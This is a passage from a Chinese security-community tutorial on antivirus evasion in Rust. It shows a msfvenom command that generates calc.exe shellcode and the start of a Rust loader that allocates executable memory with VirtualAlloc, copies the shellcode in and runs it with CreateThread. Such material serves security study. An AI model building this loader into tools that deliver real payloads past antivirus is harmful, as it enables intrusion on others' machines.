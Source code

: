 

# Rust 免杀 - Shellcode 加载与混淆 - 先知社区

Rust 免杀 - Shellcode 加载与混淆



## 前言

这是半年前我学习 Rust 和免杀时的一些记录，最近打开知识库看到了这篇半年前的笔记，并且发现我常逛的安全社区都比较少有人分享 Rust 以及 Rust 免杀的帖子，于是想着将这篇笔记分享出来供大家参考和指正。由于我写这篇文章时也刚刚开始接触 Rust，所以文中所涉及的知识和代码都有可能出现错误，所以再次说明这篇文章仅供参考并希望大家指正。

## Shellcode 加载方式

本文的主要目的是分享 Rust 对 shellcode 的加密混淆方式，所以对于 shellcode 加载只介绍两种基本的方式，可能在后续的文章中会对加载方式进行更多分享。

### 调用 WinAPI

跟其他语言的 shellcode 加载器一样，要实现更多的 shellcode 加载方式，需要调用 WinAPI。  
执行 shellcode 的一般流程：

```plain
1. 创建或获取一段可读写执行的内存空间
2. 将 shellcode 移入这块内存空间
3. 利用各种方式将程序执行的流程指向这块内存空间
```

Rust 调用 WinAPI 需要先引入依赖，`Cargo`是 Rust 的一个包管理工具，要引入`winapi`依赖需要在`Cargo.toml`添加：

```plain
winapi = {version="0.3.9",features=["winuser","processthreadsapi","memoryapi","errhandlingapi","synchapi"]}
```

这里以加载 msf 生成的弹计算器的 shellcode 为例，先使用`msfvenom`生成一段 raw 格式的 shellcode，保存到`calc.bin`文件中，并复制到 Rust 的项目目录下。

```plain
msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o calc.bin
```

在 Rust 中，可以使用`include_bytes!`宏将静态文件在编译时包含进程序中。  
下面通过调用`VirtualAlloc`申请一段内存，并设置为`PAGE_EXECUTE_READWRITE`权限，具体参数建议查阅微软 WinAPI 文档。然后通过`std::ptr::copy`将 shellcode 移动到内存中，接着通过`CreateThread`创建线程，`WaitForSingleObject`等待线程结束。  
参考：[VirtualAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), [CreateThread function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread), [WaitForSingleObject function](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

```plain
use std::mem::transmute;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let ptr = VirtualAlloc(std::ptr::null_mut(), buffer.len(), 0x00001000, 0x40);

        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());

            let mut threadid = 0;
            let threadhandle = CreateThread(
                std::ptr::null_mut(),
```